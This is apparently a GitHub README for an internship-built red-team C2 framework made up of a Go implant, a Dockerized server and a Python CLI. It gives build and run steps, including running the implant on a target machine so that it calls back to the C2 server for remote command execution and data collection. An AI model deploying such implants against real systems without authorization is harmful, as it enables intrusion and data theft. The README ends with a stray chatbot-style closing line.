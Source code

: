 # C2 Framework
---
**Overview**
---
This is Command and Control (C2) Framework is designed as part of the an intership at pwn&patch to facilitate red team operations. The framework includes:

1. CLI: Command-line interface for interacting with the implant.
2. C2 Server: The server-side component that controls and communicates with the implant.
3. Implant: A malware that runs on the target machine. 

**Features**
---
- Secure communication between implant and C2 server
- Easy-to-use CLI for managing implants
- Real-time data collection and command execution
  
**Installation**
---

1. Prerequisites
Go (for implant development)
Docker (for C2 server)
Python (for C2 server)

2. Clone the Repository

` git clone [https://github.com/yourusername/c2-framework.git](https://github.com/enigma522/C2-framework) `

`cd c2-framework`

3. Setting Up the Implant
- Navigate to the implant directory:

` cd implant `

-change the ip address and for your c2 server in cmd/main.go

- Build the implant:
- 
`go build -o implant main.go`

4. Setting Up the CLI:

Navigate to the CLI directory:
`cd cli`
`pip install -r requirements.txt`
`python cli.py`

Install dependencies and build the CLI:

5. Setting Up the C2 Server:

`cd c2-server`

`docker-compose up`

**Usage**
---

Running the Implant
Start the implant on the target machine:
bash
Copier le code
./implant --server <C2_SERVER_URL>
Using the CLI
Interact with the implant using the CLI:
bash
Copier le code
./cli --server <C2_SERVER_URL> --command <COMMAND>
Accessing the C2 Server
Open your web browser and navigate to:
url
Copier le code
http://localhost:8000
Configuration
config.json: Configuration file for the C2 server. Modify this file to set server parameters, port numbers, etc.
implant.config: Configuration file for the implant. Specify server address and other settings.
Contributing
Fork the repository.
Create a new branch (git checkout -b feature-branch).
Commit your changes (git commit -am 'Add new feature').
Push to the branch (git push origin feature-branch).
Create a new Pull Request.
License
This project is licensed under the MIT License. See the LICENSE file for details.

Contact
For questions or feedback, please contact your-email@example.com.

Feel free to adjust the sections to better fit your project’s specifics. Let me know if you need any additional sections or details!

